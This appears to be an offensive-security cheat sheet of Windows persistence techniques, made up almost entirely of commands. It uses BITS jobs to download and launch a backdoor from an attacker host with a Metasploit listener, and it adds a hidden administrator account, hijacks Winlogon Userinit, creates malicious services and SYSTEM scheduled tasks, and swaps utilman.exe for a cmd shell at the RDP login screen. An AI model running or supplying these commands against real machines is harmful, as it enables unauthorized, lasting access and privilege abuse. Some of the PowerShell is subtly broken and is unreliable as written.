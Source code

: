 # Persistence

## Persistence Bottom-Up

#### Startup folder persistence
```
C:\Users\%username%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```
Edit the registry, Startup from registry editing
```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
```

#### BITS Jobs
```powershell
# Note: In order to work you have to have a webserver running so BITS can download the backdoor and Metasploit listening for connections.
# ALSO Note: BITS is very unstable and can and might give you just temporary persistence.
bitsadmin /addfile backdoor "http://attackbox:port/backdoor.exe" "C:\Users\%username%\somewhere\backdoor.exe"
bitsadmin /SetNotifyCmdline 1 cmd.exe "/c bitsadmin.exe /complete backdoor | start /B C:\path\backdoor.exe"
bitsadmin /SetMinRetryDelay backdoor 30
bitsadmin /resume
```


##  Persistence Top-Down
#### Creating another administrator user
```powershell
net user /add <user> <password>
net localgroup Administrators backdoor /add
```
####  Edit the registry
User logon that sends you a shell:
```powershell
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d "Userinit.exe, <PATH_TO_BINARY>" /f 
```

#### Persistence by creating a service
```powershell
New-Service -Name "<SERVICE_NAME>" -BinaryPathName "<PATH_TO_BINARY>" -Description "<SERVICE_DESCRIPTION>" -StartupType "Boot"
```
#### Scheduled tasks
```powershell
New-ScheduledTaskAction -Execute "cmd.exe" -ARgument "/ C:\path\backdoor.exe"
New-ScheduledTaskTrigger -AtlogOn
New-ScheduledTaskPrincipal -UserId "NT AUTHORITY\SYSTEM" -RunLevel Highest
New-ScheduledTaskSettingsSet
Register-ScheduledTask -Action $A -Trigger $B -Principal $C -Settings $D
Register-ScheduledTask Backdoor -InputObject $E
```
####  Backdooring RDP
```powershell
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f	
```
